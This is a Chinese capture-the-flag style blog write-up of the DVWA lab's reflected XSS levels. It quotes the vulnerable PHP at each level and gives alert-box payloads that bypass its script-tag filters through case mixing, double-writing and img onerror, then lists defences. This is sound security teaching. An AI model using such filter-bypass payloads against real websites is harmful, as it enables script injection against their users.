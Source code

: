 ```yaml
---
layout:     post
title:      DVWA靶机学习——XSS (Reflected)
subtitle:   这个系列是学习DVWA靶机的。今天学习XSS (Reflected)，即反射型XSS的Low、Medium、High、Impossible级别。
date:       2020-11-21
author:     HouKC
header-img: img/home-bg-universe.jpg
catalog:    true
tags:
    - CTF
    - web
    - writeup
    - 网络安全
    - dvwa
    - 靶机
---
```




## 0x00 XSS (Reflected)

XSS，全称Cross Site Scripting，即跨站脚本攻击，是指攻击者在页面中注入恶意代码，当受害者访问该页面时，恶意代码会在其浏览器上执行。

XSS不仅限于JavaScript，还可以是Flash等脚本语言，根据恶意代码是否存储在服务器，XSS分为存储型XSS和反射型XSS。

DOM型的XSS由于比较特殊，常被分为第三种，是基于DOM树的XSS。如服务器端常使用document.body.innerHtml等函数动态生成html页面，如果这些函数在引用某些变量时没有进行过滤或检查，就会产生DOM型XSS。DOM型XSS可能是存储型，也可能是反射型。



## 0x01 Low

#### 源码分析
```php
<?php
header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}
?>  
```
关闭了XSS保护，没有设置任何过滤，直接将GET方式提交的变量值输出成html，构成了反射型XSS。

#### 解题思路
直接输入下述代码即可弹出弹框
```html
<script>alert(1);</script>
```


## 0x02 Medium
#### 源码分析
```php
<?php
header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}
?> 
```
关闭了XSS保护，并且str_replace函数会将\'\<script\>\'替换成空字符，然后才输出，但是str_replace对大小写不敏感，str_ireplace函数才对大小写敏感。

可以通过大小写绕过或双写绕过，来构成XSS。

#### 解题思路
1、大小写绕过
```html
<Script>alert(1);</scRipt>
```
大写script哪些字母都可以。

2、双写绕过
```html
<sc<script>ript>alert(1);</scr<script>ipt>
```
注意双写绕过时要将被替换的字符全部写进去，这里不只是双写script。



## 0x03 High

#### 源码分析
```php
<?php
header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}
?>
```
关闭了XSS保护，使用preg_replace函数作正则匹配，只要包含字符串\'\<script\>\'就算是中间有别的字符也会匹配到，并且i参数表示大小写都能匹配。

因此不能再使用大小写绕过或双写绕过了。但可以通过其他标签、属性来执行JavaScript脚本弹框，如：img标签。

#### 解题思路
利用img标签的onerror属性，onerror属性是在src属性出错时执行，所以只要让src属性是一个不存在的链接或值即可。构造XSS注入代码如下：
```html
<img src='1' onerror='alert(1)'>
```
也可以用a标签
```
<a href='javascript:alert(1)'>click me</a>
```
但是需要点击click me链接才会生效。



## 0x04 Imposible

#### 源码分析
```php
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $name = htmlspecialchars( $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

// Generate Anti-CSRF token
generateSessionToken();
?> 
```
源码中使用CSRF token来防御CSRF攻击。

htmlspecialchars()函数把字符&、\"、\’、\<、\>转换为HTML实体，防止浏览器将其作为HTML元素，从而防御XSS攻击。

#### 解题思路
无。



## 0x05 小结

防御方法：
- 黑名单过滤用户输入，注意大小写都考虑进去。
- 使用htmlspecialchars()函数将特殊符号变成HTML实体。
- 使用owasp等安全XSS处理API。



## 0x06 参考

[https://www.freebuf.com/articles/web/123779.html](https://www.freebuf.com/articles/web/123779.html)